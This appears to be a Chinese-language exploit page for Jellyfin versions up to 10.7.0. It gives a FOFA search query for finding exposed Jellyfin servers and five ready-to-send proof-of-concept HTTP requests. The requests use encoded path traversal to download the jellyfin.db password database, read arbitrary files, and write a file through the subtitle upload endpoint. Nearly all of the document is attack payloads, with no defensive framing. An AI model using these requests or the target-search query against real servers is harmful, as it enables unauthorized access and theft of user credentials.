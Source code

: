 <languages  />

影响版本
--------

    jellyfin<=10.7.0

FOFA
----

    title="Jellyfin"

POC1
----

从服务器下载带有密码的`jellyfin.db`

    GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
    Host: x.x.x.x
    accept: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Referer: http://x.x.x.x/web/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

POC2
----

    GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1

POC3
----

    GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

POC4
----

要下载的POC `c:tempfilename.jpg`

    GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1
    GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

POC5
----

    POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
    ...
    X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
    ...

    {"language":".\..\","format":".\..\test.bin","isForced":false,"data":"base64 encoded data"}